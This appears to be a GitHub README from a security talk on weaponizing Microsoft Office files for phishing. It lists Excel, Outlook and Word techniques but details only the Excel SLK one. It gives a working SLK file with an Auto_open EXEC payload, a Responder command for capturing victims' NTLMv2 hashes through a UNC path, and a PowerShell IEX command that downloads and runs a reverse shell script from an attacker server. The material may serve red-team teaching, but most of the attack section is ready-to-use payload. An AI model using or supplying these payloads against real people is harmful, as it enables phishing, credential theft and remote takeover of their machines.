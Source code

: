 # Weaponizing-Office

## Introduction:
I did a talk at [0xC0ffee](https://0xc0ffee.co.za), where I discussed different ways to weaponize microsoft office.
What was different about the talk, was that these methods have been discovered prior to 2017, and did not require a lot of user interaction to execute the payloads. These methods work great with phishing attacks.

I decided not to use a standard way to present my talk, so [@MTB_m00se](https://twitter.com/MTB_m00se) introduced me to terminal markdown where I found [patat](https://github.com/jaspervdj/patat)

I recently discovered a tool called [Responder[(https://github.com/SpiderLabs/Responder), which I used in my talk.
I mainly used Responder to capture NTLMv2 hashes from victom machines.

I found a great [article](https://medium.com/@petergombos/lm-ntlm-net-ntlmv2-oh-my-a9b235c58ed4) explaining what is NTLMv2 hashes and what can be done with it.

Below is a short extract from the article:
> This is the way passwords are stored on modern Windows systems, and can be obtained by dumping the SAM database, or using Mimikatz. They are also stored on domain controllers in the NTDS file. These are the hashes you can use to pass-the-hash.

## Contents:
1. Excel (.SLK)
2. Outlook (file://)
3. Word (frameset)

Objective is to capture NTLMv2 hashes by using the above programs. The user should not have to do more than 1 click after downloading the office file. 

```BONUS: will try to get reverse shells as well```

## 1. Excel (.SLK)

> An SLK file is a file saved in the Symbolic Link (SYLK) format created by Microsoft to transfer data between spreadsheet programs and other databases. 

I found this exploit on [ired.team](https://ired.team/offensive-security/phishing-with-ms-office/phishing-.slk-excel) which gave a great walkthrough oh how to exactact perform RCE in an SLK file.

### Excel RCE 

#### Setup
1. Create an new text file, put the the below code and save it as .slk file:
```
ID;P
O;E
NN;NAuto_open;ER101C1;KOut Flank;F
C;X1;Y101;K0;EEXEC("c:\shell.cmd")
C;X1;Y102;K0;EHALT()
E
```
2. DONE `HOLY SHIT THAT WAS HARD!!`

#### Capture NTLMv2 Hash

Setup Responder `./Responder.py -I ens4 -vvv`

Replace `c:\shell.cmd` with `cmd.exe /c \\IP\IPC$`. Please make sure the IP is your IP.

Once the file.slk is opened the user will need to click on `Enable Content`. Once the user clicks the button the payload is executed. Once the button is clicked Excel, every time after that the payload will be executed when the file is openned (Unless the files is renamed).

![](excel_NTLMv2_hash_capture.gif)

### Excel RCE - Powershell Reverse shell(BONUS)

1. Change the `cmd.exe /c \\IP\IPC$` to 

````
	powershell IEX 
	(New-Object Net.WebClient).DownloadString(
	'http://192.168.56.101/test.ps1')
````
2. set up `test.ps1` on a server. 
test.ps1 is a [powershell reverse shell](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell)

![](excel_NTLMv2_hash_reverse.gif)

More on [Symbolic Link](https://en.wikipedia.org/wiki/SYmbolic_LinK_(SYLK)) files
